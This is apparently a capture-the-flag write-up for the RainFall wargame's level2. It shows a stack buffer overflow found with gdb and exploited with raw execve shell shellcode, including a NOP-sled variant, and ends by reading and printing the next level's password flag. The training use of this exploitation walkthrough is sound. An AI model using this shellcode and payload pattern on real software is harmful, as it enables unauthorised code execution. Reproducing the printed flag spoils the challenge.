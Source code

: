 # Level2

When we take a look at the [decomp](./level2_decomp.c), we notice the use of `gets()` a line to check if an address is located in the `0xb0000000` range.
We can also see a call to `strdup()`.

## Exploit

We will first need to find the size of our buffer, to do that, we fill it with characters until it behaves weirdly:

```bash
level2@RainFall:~$ ./level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnoooopppp
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppJ����
```

Here we can see that the buffer is 64 chars long. Nice we found one of the components!

So we need to find the return address and where it is located compared to our buffer. To do that we will use the same technique we used to find the size of our buffer such as:

```bash
level2@RainFall:~$ gdb level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b *p+30
Breakpoint 1 at 0x80484f2
(gdb) r
Starting program: /home/user/level2/level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuu

Breakpoint 1, 0x080484f2 in p ()
(gdb) x/s $ebp+4
0xbffff72c:	 "uuuu"
(gdb) 
```

Now we can calculate the difference of size which is : `qqqqrrrrssssttttuuuu` or 16 bytes before overflowing on the return address.

Now that we have the size of everything, we can craft our payload which will be :

`[shellcode] + [59 filler] + [strdup allocated addr]`

It will jump to our shellcode, execute it and voilà !

Here's the exploit:

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"' > /var/crash/tmp.txt
level2@RainFall:~$ cat /var/crash/tmp.txt - | ./level2 
j
 X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

### Slight variation using NOP-slide

We can also use another technique called NOP-sliding/sled which means basicaly; filling a part of memory with NO-OPERATION asm instructions or `\x90`.

The payload will slightly change:

`[NOP slide] + [payload] + [filler] + [malloc addr]`

Which will result into this:

```bash
level2@RainFall:~$ python2 -c 'print "\x90"*43 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*16 + "\x08\xa0\x04\x08"' > /var/crash/shellcode.exploit
level2@RainFall:~$ cat /var/crash/shellcode.exploit - | ./level2
�������������������������������������������j
                                            X�Rh//shh/bin��1��aaaaaaaaaaa�
whoami
level3
```

## Flag

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

